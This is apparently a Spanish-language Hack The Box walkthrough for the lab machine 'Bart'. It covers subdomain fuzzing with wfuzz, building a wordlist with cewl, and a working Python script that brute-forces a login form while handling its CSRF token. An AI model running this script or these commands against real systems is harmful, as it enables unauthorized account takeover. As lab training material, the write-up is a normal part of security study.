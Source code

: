 # Bart-HTB

## NMAP 

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/2d9d0c51-4e1f-49f5-a613-c08cf759eedf)

Ponermos en el hosts el subdominio "http://forum.bart.htb/"  Si vemos la pagina tiene varios usuarios (moraleja siempre revisa los comentatios html <!-- )

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/1cc0bd8a-0fcd-4f13-bf6e-8a1939bdd22e)



## WFUZZ 

Vamos a enumerar en busca de otros subdominios

```
 wfuzz -c -t 200  --hc=302,404 -w /usr/share/seclists/Discovery/DNS/deepmagic.com-prefixes-top50000.txt -H "Host: FUZZ.bart.htb"  http://10.129.96.185/

```

Encontramos un subdominio nuevo "monitor"


![image](https://github.com/gecr07/Bart-HTB/assets/63270579/cc964f92-3d61-49a5-b8a0-419bf0651268)

Si lo revisamos no encontre nada entonces lo que se me ocurre es un ataque de fuerza bruta....

## CEWL

Esto sirve para crear diccionarios en base a las mismas palabras de la pagina.

```
cewl -w cewl-forum.txt -e -a http://forum.bart.htb

‐e, ‐‐email
                     Include email addresses.

 ‐a, ‐‐meta
                     Include meta data.


```


### TR Mayusculas a Minusculas

Para cambiar de mayusculas a minuculas

```
tr '[:upper:]' '[:lower:]'
```


## Brute Force Alternativa a cosas como Hydra

Esto es una alternativa a hydra para hacer brute force lo que si falta es ponerle hilos para que vaya mas rapido

```
#!/usr/bin/python3

import requests, pdb, sys, time, re, signal
import urllib3, threading


def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)


signal.signal(signal.SIGINT, def_handler)


url = 'http://monitor.bart.htb/index.php'
burp = { 'http': 'http://127.0.0.1:8080'}



def main():
	#time.sleep(10)
	s=requests.session()
	r = s.get(url)
	#print(r.text)
	csrfToken = re.findall(r'name="csrf" value="(.*?)"',r.text)[0]
	#pdb.set_trace()# l y p para ver valores.


	with open("user.txt", "rb") as users_file:
		usuarios = [linea.decode().strip() for linea in users_file]
	with open("passwords.txt", "rb") as passwords_file:
		contraseñas = [linea.decode().strip() for linea in passwords_file]
		for usuario in usuarios:
			for contraseña in contraseñas:
				#print(f"Probando: Usuario={usuario}, Contraseña={contraseña}")
				post_data = {'csrf': csrfToken,'user_name': usuario,'user_password': contraseña,'action':'Login'}
				r = s.post(url,data=post_data,proxies=burp)
				if "The information is incorrect"  not in r.text:
					print(f"Se encontro una contraseña correcta {usuario}:{contraseña}")
		
		



if __name__ == '__main__':
	main()

```



























































